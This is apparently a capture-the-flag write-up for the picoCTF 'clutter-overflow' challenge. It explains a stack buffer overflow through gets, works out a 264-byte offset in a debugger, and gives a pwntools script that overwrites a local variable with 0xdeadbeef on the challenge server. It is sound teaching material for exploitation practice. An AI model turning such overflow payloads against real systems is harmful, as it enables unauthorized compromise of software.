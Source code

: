 As we can see on the source code, `clutter` is a char buffer of size 0x100. We need to overwrite the `long code` variable with the value `0xdeadbeef` to print the flag.

As it is a local variable, `long code` most probably will be at the stack. Let's insert a breakpoint right before the `gets` function and take a look at the stack at this moment:

![cof1](/assets/img/picogym-pwn-easy/clutter-overflow/co1.png)

`0x7fffffffdff0` is the address on the `rbp` register. If we take a look at the value immediatly before that, there is a bunch of 0's, which are probably the `code` variable. They are at the address `0x7fffffffdfe8`. By doing some simple math with the address of the top of the stack and the address of the variable, we get: `0x7fffffffdfe8 - 0x7fffffffdee0` = 264. So we need to provide an input of 264 characters + 0xdeadbeef to precisely overwrite the `code` variable with the `GOAL`

Here is my solve:

```python
from pwn import *

p = remote("mars.picoctf.net", 31890)

payload = b'A' * 264
payload += p64(0xdeadbeef)

p.sendline(payload)
p.interactive()
```
